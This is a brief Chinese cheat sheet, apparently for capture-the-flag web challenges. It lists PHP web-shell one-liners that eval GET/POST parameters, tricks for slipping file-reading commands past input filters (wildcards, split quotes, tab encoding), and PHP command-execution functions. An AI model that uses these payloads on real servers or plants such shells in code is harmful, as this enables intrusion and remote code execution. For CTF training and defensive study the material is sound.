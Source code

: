 

### 其他标签:

```
<script language="php">@eval_r($_GET[a]);</script>
<script language="php">@eval($_POST['a']);</script>
```





# flag

(另外,某个参数过滤的比较过分时,尝试引入其他的GET或POST参数来执行命令等)

执行系统命令时支持`*`,`?`等模糊查找,例如:

```
system("cat f*.php")
system("cat fla?.php")
system("cat fla""g.php")
tac<fla''g.php
tac%09fla''g.php
```

# 命令执行:

## 读文件(php/系统命令)

```
系统命令:
cat flag.php
more flag.php
nl flag.php
tac flag.php
grep '{' flag.php
//grep(要查找的串,目标文件),这里相当于从flag.php中查找'{',查找到后输出结果所在的行,实际上也就相当于输出了flag

php函数:
file_get_contents("文件名")
show_source()
file_get_content()
```

## 执行命令

```
执行系统命令:
system
exec
执行php命令
eval
assert
```
